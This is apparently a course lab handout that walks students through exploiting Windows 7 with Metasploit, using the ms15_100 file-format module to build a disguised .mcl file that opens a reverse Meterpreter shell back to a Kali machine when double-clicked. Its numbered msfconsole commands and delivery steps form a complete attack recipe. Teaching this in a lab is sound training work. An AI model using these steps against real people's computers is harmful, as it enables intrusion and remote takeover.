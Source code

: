 ### ACTIVITY: WINDOWS 7 FILE EXPLOIT

*This activity is ungraded.*

- Note: This will *only* work on a Windows 7 target machine. *It will not work on Windows 10.*

**Software:** In this activity you will use these applications and resources that are included in the Kali VM:

- Metasploit
- Meterpreter

#### Downloads

You’ll need a Windows 7 system. It can be your host machine, or another device altogether. If neither of those conditions are possible, you can download a free legal Windows 7 VM. In your hypervisor, you might need to add the Network Adapter before starting the VM.

- [Download Windows 7 VM](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)

**Time:** This activity should take you approximately 30 minutes to complete.

#### Goal

- To prepare a malicious file that will create a remote session on a Windows 7 machine when double clicked.

#### Instructions

**Note:** Hit **Enter** after each command.

**Before you begin:** Make sure that the Windows 7 VM is running in bridged mode (in a separate VMware Hypervisor instance), and is on the same subnet as the Kali box. Turn off the Firewall on the Windows 7 system, and make sure the Windows 7 system and the Kali box can ping each other.

1. Inside of msfconsole, execute the following commands. Make sure you read all output:

> - **search ms15_100**
> - **use exploit/windows/fileformat/ms15_100_mcl_exe**
> - **info**
> - **set filename secretjonathanvideos.mcl**
> - **set file_name secretjonathanvideos.exe**
> - **set payload windows/meterpreter/reverse_tcp**
> - **set lhost [IP ADDRESS OF YOUR KALI BOX]**
> - **set lport 7777**
> - **exploit**

1. Notice the output, indicating the location where this file was created, for example */root/.msf4/local/secretjonathanvideos.mcl*.
2. In addition to the file created, a handler was started on the Kali box that will wait for a callback from the target Windows 7 machine when the file is double clicked.
3. Open up another terminal and enter ***\*cp /root/.msf4/local/secretjonathanvideos.mcl /root/Desktop\****. This will copy the file to your Kali desktop.
4. Either using Guest Additions, email, or a USB drive, copy that file over to your Windows 7 machine.
5. Double click the file in the Windows host machine, and click *View Now* in the security warning.
6. In Kali, you will see a notification that a Meterpreter session has been established.
7. Enter **sessions –l** to see the sessions listed.
8. Enter **sessions –i \*[number of the session showing in the ID column]\***. For example: sessions -i 1
9. Enjoy your meterpreter shell! If you're using the free Microsoft Windows 7 VM (which is limited), some Meterpreter commands that I did in the Demo Videos will not work. If you're using your own Windows 7 copy, feel free to replicate everything I did in the demo videos! :-)

After you've finished, complete the activities below. *Please be as brief as you can in your responses (five words or less).*
